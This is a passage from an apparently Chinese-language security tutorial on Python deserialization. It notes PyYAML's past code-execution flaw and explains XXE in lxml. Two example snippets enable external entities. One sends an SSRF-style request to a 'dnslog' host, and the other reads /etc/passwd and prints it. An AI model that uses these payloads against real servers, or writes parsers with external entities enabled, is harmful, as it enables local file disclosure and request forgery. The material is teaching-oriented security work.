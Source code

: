   
2、新增一条路由和函数  
  
直接请求![](https://mmbiz.qpic.cn/mmbiz_jpg/TegOSv0yja6mZV7YM6KjLZK6orbXlWwKsueTticZoTLokL2qpmOcCMONH1agwdr3hI2KXO2ziboswhpj0ZeIu1mQ/640?wx_fmt=jpeg&from=appmsg "")  
  
  
加上逻辑请求![](https://mmbiz.qpic.cn/mmbiz_jpg/TegOSv0yja6mZV7YM6KjLZK6orbXlWwKJN5zoUKHicP67ZibxCVdRl0tjJAKd1E3yJXX5ATaibQNkK6e2nckclgPA/640?wx_fmt=jpeg&from=appmsg "")  
  
### PyYAML  
  
PyYAML目前github最新版本为6.0.1，推送于2023.7.18，而上一个版本6.0发布于2021.10.4，根据Changes可以发现在6.0版本强制要求用户自己定义Loader加载器，不存在默认加载器了。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/TegOSv0yja6mZV7YM6KjLZK6orbXlWwKfQLziaY4D8XzlQ3LbEp5NaiawYaw62RdCzf7wUctJSBsf9fZ1LIWylqA/640?wx_fmt=jpeg&from=appmsg "")  
  
在2020.3.19发布的5.3.1版本中修复了在python/object/new构造函数期间执行任意代码的问题![](https://mmbiz.qpic.cn/mmbiz_jpg/TegOSv0yja6mZV7YM6KjLZK6orbXlWwKnd0MriaNpux2nWJkcaVK8LKzyHibIGdhm5FLvI9VdWXaBawJpaKfM79A/640?wx_fmt=jpeg&from=appmsg "")  
  
  
所以PyYAML在实战中几乎不会遇到可利用的场景了，故本文不再拿出来分析。可能有些ctf会出历史漏洞相关的题目，关于历史漏洞，可以看这篇文章（https://forum.butian.net/share/2288），写的已经是非常详细了。  
### xml  
  
解析xml转化为python中的对象，也是一种反序列化行为，这里主要就是xxe漏洞。在python中比较主流的用来解析xml的库有lxml、xml.etree.ElementTree、defusedxml、defusedxml、minidom、xml.sax。  
  
其中，lxml在默认情况下不支持加载外部实体，但是可以通过参数配置来允许。其他的这些直接就是不支持加载外部实体。  
  
例子一：  
```
from lxml import etree

xml_data = f"""<!DOCTYPE root [<!ENTITY test SYSTEM "http://dnslog">]><root>&test;</root>"""

# 默认情况下load_dtd=False, no_network=True
# 表示不允许加载外部实体，不允许网络请求
# 这里通过手动指定的方式开起来
parser = etree.XMLParser(load_dtd=True, no_network=False)
tree = etree.fromstring(xml_data, parser)

```  
  
xxe打ssrf需要手动开启load_dtd、no_network两个参数的支持，如果ssrf响应的是xml格式则可以取得回显，否则无回显。  
  
例子二：  
```
from lxml import etree

xml_data = """<!DOCTYPE root [<!ENTITY test SYSTEM "file:///etc/passwd">]><root>&test;</root>"""
parser = etree.XMLParser(load_dtd=True)
tree = etree.fromstring(xml_data, parser)
# 获取并打印回显
print(tree.xpath('/root/text()')[0])

```  
  
读取本地文件只需要手动开启load_dtd即可，可以直接取得回显。![](https://mmbiz.qpic.cn/mmbiz_jpg/TegOSv0yja6mZV7YM6KjLZK6orbXlWwK6vgE5uLf8OJ7abZ1hWdiadQKk30cjxjJSKMeEkaB9cFDdwpDVBFSiaHQ/640?wx_fmt=jpeg&from=appmsg "")  
  
  
  

